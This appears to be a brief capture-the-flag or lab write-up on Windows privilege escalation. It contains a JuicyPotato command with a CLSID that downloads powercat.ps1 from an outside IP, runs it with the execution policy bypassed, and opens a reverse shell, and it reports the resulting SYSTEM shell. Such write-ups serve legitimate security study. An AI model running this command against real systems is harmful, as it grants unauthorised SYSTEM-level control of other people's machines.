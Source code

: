 User `bruce` has following privileges
![[Pasted image 20240816185142.png]]

Used JuicyPotato as GodPotato did not work for PrivEsc
```Powershell
JuicyPotato.exe -l 1337 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" -p "C:\Windows\System32\cmd.exe" -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.11.103.8/powercat.ps1');powercat -c 10.11.103.8 -p 4454 -e cmd" -t *
```

Used a different CLSID from the one used in RetroCTF as the same one did not work

Received shell as `nt authority\system`
![[Pasted image 20240816185316.png]]
